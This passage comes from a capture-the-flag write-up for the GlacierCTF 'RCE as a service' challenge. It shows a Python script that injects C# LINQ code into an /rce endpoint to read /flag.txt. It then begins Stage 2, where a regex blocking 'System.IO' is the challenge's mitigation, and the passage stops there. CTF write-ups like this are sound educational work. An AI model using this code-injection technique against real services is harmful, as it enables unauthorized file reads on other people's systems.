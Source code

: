 #### Exploiting

The exploit is pretty easy. We need to read a file, but since we cannot inject a [`using` directive](https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/keywords/using-directive) we have to specify the fully qualified name of the class we want to use.
Based on the example previously given, we set in `Data` the file we want to read and we inject the code to read it in `Query`:
```Python
#!/usr/bin/env python3
import requests

base = 'https://rce-as-a-service-1.ctf.glacierctf.com'

def send_rce(data, code):
    endpoint = base + '/rce'
    payload = { 'Data': data, 'Query': code}
    res = requests.post(endpoint, json=payload)
    return res.text

print(send_rce(['/flag.txt'], 
    '(data) => data.Select((d) => System.IO.File.ReadLines(d))'))
```

### Stage 2

#### Challenge description

> It came to our attention that a highly advanced APT targeted our edge computing system. In order to stop the attacks, we implemented even more advanced mitigations.
> 
> Think seccomp, but for the web!
> 
> Now there's no way an attacker could run malicious code, right?
> 
> (Goal: Read flag.txt at the filesystem's root.)

##### Attachments

> Program.cs

> api_usage.md

#### Analysis

The code is the same, except for the fact that this time a regex blocks our previous payload:
```C#
// Here we can adjust the difficulty of the challenge by banning certain functions.
var fileSystemUsage = Regex.IsMatch(query, "System.IO");

if (fileSystemUsage) {
    throw new Exception("'System.IO is not in the edge-computing file. 
        This incident will be reported.'");
}
```
